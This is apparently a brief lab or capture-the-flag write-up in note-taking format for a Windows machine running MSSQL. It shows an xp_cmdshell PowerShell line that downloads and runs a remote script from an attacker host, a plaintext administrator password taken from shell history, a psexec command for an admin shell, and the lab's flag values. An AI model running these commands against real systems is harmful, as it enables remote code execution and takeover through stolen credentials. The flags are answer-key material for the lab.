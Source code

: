 - Tags: #windows #mssql #psexec
- MSSQL Shell
	- ```powershell
	  xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://10.10.14.147:8000/rv.ps1\")
	  ```
- **User flag** at `C:\users\sql_svc\Desktop\user.txt`
	- 3e7b102e78218e935bf3f4951fec21a3
	  background-color:: pink
- Administrator password found on shell #history
	- `C:\users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
		- #+BEGIN_CAUTION
		  /user:administrator MEGACORP_4dm1n!!
		  #+END_CAUTION
- #privesc: Get an administrative shell via psexec
	- ```bash
	  impacket-psexec 'administrator:MEGACORP_4dm1n!!@10.129.40.162'
	  ```
- **Root flag** at `C:\users\Administrator\Desktop\root.txt`
	- b91ccec3305e98240082d4474b848528
	  background-color:: pink